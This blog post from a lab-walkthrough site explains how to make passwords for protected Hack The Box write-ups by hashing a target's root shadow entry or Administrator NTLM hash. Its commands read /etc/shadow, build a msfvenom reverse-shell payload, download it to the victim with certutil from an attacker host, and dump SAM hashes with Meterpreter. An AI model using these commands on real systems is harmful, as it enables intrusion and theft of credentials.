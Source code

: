 ```yaml
---
author: Greenjam94
categories:
- Walkthroughs
ct_period_last_updated:
- default
date: "2020-07-06T08:43:30Z"
guid: https://www.hackerunder.dev/?p=890
id: 890
image: /wp-content/uploads/2019/03/abstract-code.jpg
title: Walkthrough Decryption Instructions
url: /walkthrough-decryption-instructions/
---
```



# 4/9/2022 Update:

> After migrating from WordPress to Hugo, I do not have the ability to password protect blog posts. All content will be public and because of that these decryption instructions are no longer worthwhile for https://hackerunder.dev. I will not be posting content that requires password protection. For example, I previously shared unretired hackthebox machine walkthroughs but required hashes as the password for the post.

This decryption method was copied from [0xPrashant](https://twitter.com/0xprashant) and his own [blog](http://0xprashant.github.io/pages/windows-decryption/). The page may not always be online, so I have copied the walkthrough decryption instructions from [an archived backup](https://web.archive.org/web/20200327224312/https://0xprashant.github.io/pages/decryption-instruction/). Below is a summary of how to create hashes from unique strings in a target machine with either Linux or Windows operating systems.

# Linux Machine Instructions (Using the root user hash in /etc/shadow)

When you own root on a machine you can read the content of /etc/shadow file

Simply run `cat /etc/shadow` and read the contents of the shadow file

```
cat /etc/shadow
root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7:::
```


## Create a md5hash from the /etc/shadow entry

Copy whole the line for the root user  
`root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7:::`

The following command converts this text to a md5 hash

`echo root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7::: | md5sum`

And you get **02bece38cf6510fb40f19e7caa16e323**

This is the password for protected posts of linux machines

# Windows Machine Instructions (Using the Administrator NTLM hash)

When you own a windows machine you are allowed to get the NTLM hashes of all the users

To get the NTLM hash, use a meterpreter shell and the `hashdump` command or an alternative

## Meterpreter hashdump

Assuming you already have access to an Administrator or System level shell

Create a payload that opens a meterpreter shell with msfvenom  
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<YOURIP> lport=4444 -f exe > msf.exe`

Host the payload and download it to the target Windows machine  
Attacker: `python3 -m http.server 80`  
Victim: `certutil -urlcache -split -f http://<YOURIP>/msf.exe c:/windows/temp/msf.exe`

Launch a meterpreter listener

```
kali: msfconsole
msf5> use exploit/multi/handler
msf5> set LHOST <YOURIP>
msf5> run
```

Run the msf.exe file on the victim through your shell

Once a meterpreter session is established, run `hashdump`

If you see the following error  
`[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.`  
List processes with `ps`   
Migrate to a process running as SYSTEM and try again  
`migrate <PID>`  
`hashdump`

## hashdump.exe alternative

WARNING: Hashdump.exe might not give correct NTLM hashes, use another alternative  
Download and transfer [hashdump.exe](https://t.co/qhTz78Jt0S?amp=1) to the windows machine and run it with option /samdump

```
PS C:\tmp> .\hashdump.exe /samdump
SAM hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c:::
```

## Other alternatives

0xPrashant has a post on [getting the NTLM hash](https://0xprashant.github.io/pages/windows-decryption/) from a Windows machine. Besides Meterpreter he also goes over Mimikatz and Secretdump. Any option should work.

## Create a md5hash from the NTLM hash

Copy just the NTLM hash, which is the fourth entry between the colons (:)  
`31d6cfe0d16ae931b73c59d7e0c`

The following command will convert it to a md5 hash

`echo 31d6cfe0d16ae931b73c59d7e0c | md5sum`

Here we got **a8ca0fb8a398cd4268cd5baf75ec29a3**

Paste it in the writeup where it asks for password for decryption of writeup

- - - - - -

Please enjoy the password protected posts after attempting to hack the machines yourself. Use public walkthroughs of retired or older machines if you are new or looking to just follow along. It is a waste of talent to brute force the post password just to follow the steps and not hack a machine by your own ability.

Hopefully these walkthrough decryption instructions are clear and you are able to view protected posts. Feel free to reach out to me or wait for the machines to become retired and I will make the walkthroughs public. 
  
Please comment with questions or suggestions or if a machine guide is incorrect.

If a walkthrough is violating a lab’s Terms of Service or needs to be removed, please reach out to me as well at [HackerUnderDev](https://twitter.com/hackerunderdev) on Twitter.